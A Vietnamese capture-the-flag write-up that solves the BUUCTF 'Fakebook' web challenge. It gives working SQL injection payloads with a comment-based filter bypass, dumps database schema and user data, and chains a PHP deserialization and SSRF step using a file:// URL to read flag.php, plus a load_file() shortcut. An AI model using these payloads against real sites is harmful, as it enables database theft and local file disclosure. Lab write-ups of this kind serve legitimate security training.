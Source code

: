 # [网鼎杯 2018]Fakebook

Challenge cho ta trang web có 2 chức năng join và login.Đầu tiên mình thử join

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e11fcf2f-bfcf-4b3e-acc3-f83787f48aa1)

Sau đó thì mình kiểm tra phần username thì thấy rằng có 1 method GET được tạo ở file `view.php` với tham số `no = 1`.Theo mình nghĩ thì là có sqli

Đầu tiên thử các payload boolean đơn giản.

`and 1=1 union select 1,2,3,4`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e131f95b-78ed-4641-ae7c-a2c8a0df6120)

Và có kết quả trả ra mình thử inject thêm để xem có database hay gì quan trọng không.Sau khi thử các payload khác nhưng đều ko cho ra kết quả ví đã bị filter.
Nên mình chuyển sang `and 1=2 union/**/select 1,2,3,4#`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/34192d6d-299e-4787-bb00-319f6ada09ff)

Và kết quả trả ra có lỗi ở cột 2, xuất hiên deserialize dể đọc flag ở file `/var/www/html/view.php`.Tiếp tục inject.

```
1. and 1=2 union/**/select 1,database(),3,4# ---> facebook
2. and 1=2 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='facebook'# ---> user
3. and 1=2 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#  --->no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
4. and 1=2 union/**/select 1,group_concat(data),3,4 from users# ---> O:8:"UserInfo":3:{s:4:"name";s:4:"lama";s:3:"age";i:20;s:4:"blog";s:10:"123123.com";}
```

Ở payload thì kết quả trả ra là deserialize string. Sau đó thì mình đi scan file bằng dirsearch. 

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/9d7aed59-fb5f-4876-97ac-f0f1ce54d927)

Wget `robots.txt` thì cho ra đường dẫn tới file khác `user.php.bak`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7b074c6d-d236-44b0-a0bd-d80c9d6661b1)

Sau đó thì ta có được source code.

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();//Hàm này khởi tạo một phiên cURL, được sử dụng bởi các hàm curl_setopt(), curl_exec() và curl_close().

        curl_setopt($ch, CURLOPT_URL, $url);//Hàm này được sử dụng để thiết lập các tùy chọn cho việc truyền dữ liệu bằng cURL. CURLOPT_URL đại diện cho địa chỉ URL cần truy cập, tiếp theo là giá trị của nó.
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);//Tùy chọn này, khi được thiết lập, làm cho curl_exec() trả về phản hồi dưới dạng một chuỗi thay vì trực tiếp hiển thị nó.
        $output = curl_exec($ch);//Hàm này trả về TRUE nếu thành công hoặc FALSE nếu thất bại. Tuy nhiên, nếu tùy chọn CURLOPT_RETURNTRANSFER được thiết lập, nó trả về kết quả thực thi nếu thành công hoặc FALSE nếu thất bại.
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);//Hằng số này đại diện cho mã HTTP cuối cùng nhận được. curl_getinfo được sử dụng để lấy giá trị này dưới dạng chuỗi. Vì đã thiết lập CURLINFO_HTTP_CODE, nó trả về mã trạng thái.Nếu mã trạng thái không phải là 404, kết quả của việc thực thi sẽ được trả về.
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

## Review code

Sau khi đọc xong, mình phát hiện thêm lỗi SSRF ở get() function.Và có cả `__construct` nên chắc chắn rằng có liên quan đến serilization.

Tiếp đó là func `getBlogContents()`.Ở đây rõ ràng là tham số được truyền là "blog".Vậy thì ta sẽ input vào blog vì desrerilizatMình sẽ viết lại cho dễ hiểu

```php
class BlogReader
{
    private $blog;

    function __construct($blog)
    {
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if ($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents()
    {
        // Lỗi bảo mật: Không kiểm tra đầu vào người dùng $this->blog
        // và không kiểm tra URL trước khi thực hiện yêu cầu.
        return $this->get($this->blog);
    }

    public function isValidBlog()
    {
        // Lỗi bảo mật: Sử dụng regex để kiểm tra URL không đủ an toàn.
        // Điều này có thể bị lợi dụng để chèn SSRF.
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
}

// Sử dụng lớp BlogReader
$blogReader = new BlogReader("http://example.com");
$contents = $blogReader->getBlogContents();
echo $contents;
```

1. Không kiểm tra đầu vào người dùng trong getBlogContents: Hàm getBlogContents không kiểm tra đầu vào người dùng $this->blog, điều này có thể dẫn đến lỗ hổng SSRF nếu attacker cung cấp một URL độc hại.

2. Sử dụng regex để kiểm tra URL trong isValidBlog: Sử dụng regex để kiểm tra URL có thể không đủ an toàn và có thể bị lợi dụng để chèn SSRF. Cần có các kiểm tra bảo mật mạnh mẽ hơn để đảm bảo rằng URL được chấp nhận là an toàn.

## Conclusion

Chúng ta có thể sử dụng giao thức file để đọc các tệp cục bộ. Nếu bạn không biết nhiều về giao thức file, vui lòng tham khảo bài viết này: https://blog.csdn.net/github_39319000/article/details/86523282

Nó có thể được truy cập như sau: `file://var/www/html/flag.php`

Hãy quay lại và xem serialized string sau khi inject payload, từ đó chúng ta có thể biết rằng thông tin đăng ký của chúng ta được lưu trữ dưới dạng deserialized string.

Nó được lưu trữ trong trường dữ liệu ở serialized mode, và serialized string được trả về trong quá trình truy vấn, sau đó địa chỉ URL của `blog` được giải chuỗi trước tiên.

```solve.php
<?php
class UserInfo
{
    public $name = "1";
    public $age = 20;
    public $blog = "file://var/www/html/flag.php";

}

$a = new UserInfo();
echo serialize($a);
?>
//output:O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:20;s:4:"blog";s:28:"file://var/www/html/flag.php";}
```

Payload
```
and 1=2 union/**/select 1,2,3, 'O:8:"UserInfo":3:{s:4:"name";s:4:"lama";s:3:"age";i:20;s:4:"blog";s:28:"file://var/www/html/flag.php";}'#
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1e6e1613-3243-495f-ac1e-56e0c1ead141)

## Cách 2

Bạn có thể dùng payload `load_file()` sẽ nhanh hơn

`and 1=2 union/**/select 1,load_file("/var/www/html/flag.php"),3,4#`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/08ab1013-806f-4885-a249-849a853598b4)


